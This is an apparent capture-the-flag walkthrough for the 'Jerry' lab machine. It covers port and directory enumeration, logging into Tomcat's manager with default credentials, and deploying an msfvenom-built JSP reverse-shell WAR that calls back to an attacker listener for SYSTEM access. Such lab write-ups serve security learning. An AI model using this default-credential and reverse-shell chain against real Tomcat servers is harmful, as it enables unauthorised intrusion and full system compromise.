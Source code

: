 # Jerry - Windows, easy (10.10.10.95)

### Enumeration
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```

Gobuster:
```
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/] 
```

In /manager, after failing the authentication, we can see the following line `For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.`.
So this may suggest that the credentials are tomcat:s3cret, and we can use them to successfully log in!

After login, in the manager page there's a 'WAR file to deploy' field, where we can upload a .war file and deploy it.
We can try to create a reverse shell with msfvenom `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f war -o rev-shell.war`.
After uploading it and setting up a netcat listener we just need to click on it and the magic will happen:
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Now just nagivate to `C:\Users\Administrator\Desktop\flags` and type `type "2 for the price of 1.txt" to get both user and root flags!
